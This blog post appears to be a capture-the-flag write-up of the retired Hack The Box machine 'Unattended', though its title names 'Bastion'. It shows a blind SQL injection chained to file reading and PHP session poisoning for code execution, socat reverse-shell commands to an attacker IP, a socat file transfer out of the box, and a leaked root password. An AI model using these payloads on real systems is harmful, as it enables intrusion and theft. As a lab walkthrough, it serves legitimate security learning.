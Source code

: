```yaml
---
layout: post
title:  "Bastion writeup by godzillabg"
---
```


![Image](/assets/unattended/img0.png)

Hello guys, i’m Friscas from the team chmod755 and this is my first write-up.
Today i’m going to release this writeup of the retired Unattended machine!

# Enumeration
As usual we start with mapping the network using the wonderful tool Nmap  
![Image](/assets/unattended/img1.png)

And we get 2 open ports: port 80 and port 443! As you can see we even have a domain name for the “https://” port. Let’s add it to /etc/hosts  
![Image](/assets/unattended/img2.png)

Now that we have added the domain name in our host database, we can open the website in our browser and start checking for a vuln.

So when we open the website we get the default Apache index  

![Image](/assets/unattended/img3.png)

So what if we try to search “/index.php” ?

![Image](/assets/unattended/img4.png)

We found something; now it is time to check the source code to see what we got

![Image](/assets/unattended/img5.png)

So  we can see we have parameters in “index.php”, “id” is the parameter. We can start with basic tests such as SQLi.. Appending “%27” to the end of  the URl is a good way to test for any problems
![Image](/assets/unattended/img6.png)  
`Before the %27`
![Image](/assets/unattended/img7.png)  
`After adding the %27`

We  can see that the website response is different. I think we are in the  right path. Now it is time to check which type of SQLi we have here.

Since  we have no errors, this means that this is not an error-based SQLi (the  classic one), but we can test for Blind SQLi, by using the boolean  method (thanks to George Boole,  for this amazing function). So now we gonna check the boolean variable  by getting the response of the website,TRUE and FALSE! How can we get  this? Simple; using the logical “and” operator: “index.php?id=587' and 1  = 1 — -”.. here’s the website’s response

![Image](/assets/unattended/img8.png)


The page is the same as when we go to” index.php?id=587" without the “%27",  but when we go to “index.php?id=587' and 1 = 2 — -”, we get

![Image](/assets/unattended/img9.png)

Since 1 is not 2, then the response is false! Blind SQLi confirmed.

We can fireup sqlmap now but we don’t get anything useful as credentials but we will find a table called “filepath” that contain the php files  that are included inside the index.php, so we can test manually! Maybe  we can read files and even execute them :D

We can use this amazing sql query: `UNION (SELECT ‘contact\’ UNION (SELECT \’/path/here\’ FROM filepath) — ‘) — +`

N.B  I have spent a lot of time trying and trying with load_file() and it  didn’t work so i want to thank the discord user: roughplay#1808 (TW: dastan9408) for helping me with that query!

ok now we test to get /etc/passwd but first we intercept the request using burpsuite and send it to Repeater!

![Image](/assets/unattended/img10.png)  
```This is the request with the parameter value url encoded: https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/etc/passwd/’ FROM filepath) — ‘) —```

So  as you can see we got the /etc/passwd! We got an LFI via SQLi :D how  amazing! But we can chain vulns and get RCE via LFI by log poisoning!  Exciting right? So LFI to RCE via SQLi!

Here you can find everything you need about log poisoning!

So we got as COOKIE a PHPSESSID! If you read the github repo we can see there is a LFI to RCE via PHP sessions!

Let’s give it a try!

![Image](/assets/unattended/img11.png)  
```https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/var/lib/php/sessions/sess_COOKIE’ FROM filepath) — ‘) —```

So now i created a new cookie with our RCE payload `<?php  system(“whoami”)?>` (url encoded)! and We get www-data, so we are  www-data! now it’s time for a reverse shell, we can use socat, and we  gonna listen to port 80!
```
Listener: socat file:`tty`,raw,echo=0 tcp-listen:80
Launch: exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:80
```

And we get the shell :D

![Image](/assets/unattended/img12.png)


Mmmm we are www-data, we can’t get the user flag because we don’t have the  privileges! It’s time to do some privesc. “ls” returns index.php, maybe  we can find credentials in there :D

![Image](/assets/unattended/img13.png)


and we get some mysql credentials. :D Time to check the mysql databse

![Image](/assets/unattended/img14.png)

the config table seems really interesting, time to check it

![Image](/assets/unattended/img15.png)

there’s some useless credentials but we get what it seems something that get executed

![Image](/assets/unattended/img16.png)

maybe if we change that value with a rev shell it will get executed, let’s try

![Image](/assets/unattended/img17.png)  
and after a little bit we get the shell :D

![Image](/assets/unattended/img18.png)
and we even get the user flag :D

# Privesc
Trying sudo we see it is not installed so we can check id to see our group

![Image](/assets/unattended/img19.png)

oh, weird we are part of the group grub, we can find files where grub have the permission on

![Image](/assets/unattended/img20.png)

Lol, we got initrd.img, and reading this article we can understand that initrd.img is nothing but a compressed file so it’s time to download the file on our machine and decompress it.

For downloading the file on our machine we can use socat again.

Since we are using port 443 for the shell as guly, we can use again port 80 for downloading the file.
```
Receiver: socat -u TCP-LISTEN:80,reuseaddr OPEN:initrd.img-4.9.0-8-amd64,creat 
Sender: socat -u FILE:/boot/initrd.img-4.9.0-8-amd64 TCP:IP:80
```

![Image](/assets/unattended/img21.png)

Now we can check for useful things as credentials: `grep -nr “password”`. and see what we get

![Image](/assets/unattended/img22.png)

mmmm let’s check the:”/scripts/local-top/cryptroot” script and see if we get something useful. :P

Reading the source code we can see this line of code:  
```
if ! crypttarget=”$crypttarget” cryptsource=”$cryptsource” \
 /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then message “cryptsetup failed, bad password or options?””
```  
This command: `/sbin/uinitrd c0m3s3f0ss34nt4n1` will let us get the root password! Let’s try this :D
![Image](/assets/unattended/img23.png)
__Since im not VIP my friend send me the screenshot that’s why is different xD__

And let’s gooooo! we are now root and we can get the flag :P

__Hoped you all enjoyed my writeup__

__Ciao :D__

